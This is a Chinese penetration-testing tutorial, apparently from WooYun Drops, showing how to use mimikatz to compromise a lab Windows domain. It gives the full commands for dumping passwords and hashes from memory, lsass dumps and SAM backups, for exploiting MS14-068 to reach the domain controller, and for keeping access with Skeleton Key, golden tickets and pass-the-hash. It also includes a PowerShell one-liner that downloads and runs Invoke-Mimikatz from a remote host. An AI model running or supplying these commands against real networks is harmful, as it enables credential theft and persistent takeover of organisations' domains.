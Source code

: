# 内网渗透中的mimikatz

0x00 前言
=======

* * *

上篇测试了中间人攻击利用框架bettercap，这次挑选一款更具代表性的工具——mimikatz

![这里写图片描述](http://drops.javaweb.org/uploads/images/ae1de40b1781b45c61de7cdd9dfaccd2b2971229.jpg)

0x01 简介
=======

* * *

mimikatz，很多人称之为密码抓取神器，但在内网渗透中，远不止这么简单

0x02 测试环境
=========

* * *

网络资源管理模式：

```
域

```

已有资源：

```
域内一台主机权限
操作系统：win7 x64
域权限:普通用户

```

0x03 测试目标
=========

* * *

1、获得域控权限 2、导出所有用户口令 3、维持域控权限

0x04 测试过程
=========

* * *

### 1、获取本机信息

**mimikatz**：

```
privilege::debug
sekurlsa::logonpasswords

```

获取本机用户名、口令、sid、LM hash、NTLM hash 如图![这里写图片描述](http://drops.javaweb.org/uploads/images/50ba40c4f2077af80d351302342f68da4c483e51.jpg)

### 2、攻击域控，获得权限

使用ms14-068漏洞

```
ms14-068.exe -u -p -s -d 

```

生成伪造缓存test.ccache:

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/fa682894ef5172fefa88b9a746d5f016b960ded4.jpg)导入伪造缓存:**mimikatz：**

```
kerberos::ptc test.ccache

```

登陆：

```
net use \\A-635ECAEE64804.TEST.LOCAL
dir \\A-635ECAEE64804.TEST.LOCAL\c$

```

获得域控权限，如图![这里写图片描述](http://drops.javaweb.org/uploads/images/dce0d3c32d7ed09945f254232d0ff9b605ffa82c.jpg)

### 3、导出域控信息

（1）直接获取内存口令**mimikatz：**

```
privilege::debug
sekurlsa::logonpasswords

```

（2）通过内存文件获取口令 使用procdump导出lsass.dmp**mimikatz：**

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full

```

（3）通过powershell加载mimikatz获取口令

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz

```

（4）导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份（之前文章有介绍）**mimikatz：**

```
lsadump::sam SYSTEM.hiv SAM.hiv

```

### 4、维持域控权限

（1）Skeleton Key**mimikatz：**

```
privilege::debug
misc::skeleton

```

万能钥匙，可使用任意用户登陆域控

```
net use \\A-635ECAEE64804.TEST.LOCAL mimikatz /user：test

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/b347730dc1d295b3254ea6f60e35f79bf02cdf59.jpg)

（2）golden ticket**mimikatz：**

```
lsadump::lsa /patch

```

获取krbtgt的ntlmhash，如图![这里写图片描述](http://drops.javaweb.org/uploads/images/8e496641fa6b2c51b4fd212fe7f1085757fada43.jpg)

生成万能票据：**mimikatz：**

```
kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-2848411111-3820811111-1717111111 /krbtgt:d3b949b1f4ef947820f0950111111111 /ticket:test.kirbi

```

导入票据：**mimikatz：**

```
kerberos::ptt test.kirbi

```

登陆域控：

```
net use \\A-635ECAEE64804.TEST.LOCAL
dir \\A-635ECAEE64804.TEST.LOCAL\c$

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/f6d6df1223ff308f1bc9364ef78a0b8662ba3dbb.jpg)

**_Tips:_**

```
Golden Ticket不多说，自行理解
By default, the Golden Ticket default lifetime is 10 years
password changing/smartcard usage does not invalidate Golden Ticket;
this ticket is not emitted by the real KDC, it's not related to ciphering methods allowed;
NTLM hash of krbtgt account is never changed automatically.

```

（3）Pass-The-Hash**mimikatz：**

```
sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/7646654f4c08354ce04956dde06851b3eec7e56d.jpg)

### 5、补充

登陆域控，刷新扫雷记录，留下名字;D**mimikatz：**

```
minesweeper::infos

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/79eb83df4bf0f6f285b69ac9a1845f4299a61396.jpg)

0x05 小结
=======

* * *

本文重点在于介绍mimikatz在内网渗透中的常用方法，其它细节做了适当省略，可在后续详细介绍细节。

**本文由三好学生原创并首发于乌云drops，转载请注明，谢谢**神器在手，会用才行；） 水平有限，欢迎补充。